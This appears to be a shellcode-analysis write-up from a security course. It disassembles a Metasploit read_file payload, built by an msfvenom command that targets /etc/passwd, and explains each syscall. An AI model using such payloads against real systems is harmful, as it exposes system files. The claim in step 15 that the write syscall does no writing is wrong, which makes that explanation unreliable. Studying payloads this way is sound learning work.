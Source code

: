 # Solution (using ndisasm)

If we dump the nasm code from the payload (msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -), here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 
   
    Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 
   
    Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 
   
       00000007  5B                pop ebx 

           5 is set to EAX <=> Syscall, function open selected

           The content of the top of the stack is set to ebx, 

           in this case, /etc/passwd).
    
        ![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.png "Pop Ebx")

   4)  00000008  31C9              xor ecx,ecx 
   
    Clearing out ecx, now is 0
       
   5)  0000000A  CD80              int 0x80 
   
    int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
    where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   6) 0000000C  89C3              mov ebx,eax 
    
    Eax is set to ebx
   
   7) 0000000E  B803000000        mov eax,0x3  
   
    Eax is set to 3 <=> Syscall, function read selected
   
   8) 00000013  89E7              mov edi,esp 
   
    Top of stack set to edi;
   
   9) 00000015  89F9              mov ecx,edi 
   
    Edi set to ecx;
   
   10) 00000017  BA00100000        mov edx,0x1000 
   
    Edx set to 4096 (decimal)
   
   11) 0000001C  CD80              int 0x80 
   
    Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
    EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   12) 0000001E  89C2              mov edx,eax 
   
    EDX set to EAX
   
   13) 00000020  B804000000        mov eax,0x4 
   
    Eax to 4 <=> Syscall, function write
   
   14) 00000025  BB01000000        mov ebx,0x1 
   
    Ebx=1
   
   15) 0000002A  CD80              int 0x80 
   
    ssize_t write(int fd, const void *buf, size_t count);
 
    In this case, is just called but no writing is done.
 
   16) 0000002C  B801000000        mov eax,0x1 
   
    Exit called
   
   17) 00000031  BB00000000        mov ebx,0x0
   
   18) 00000036  CD80              int 0x80 
   
    Execution of exit 
   
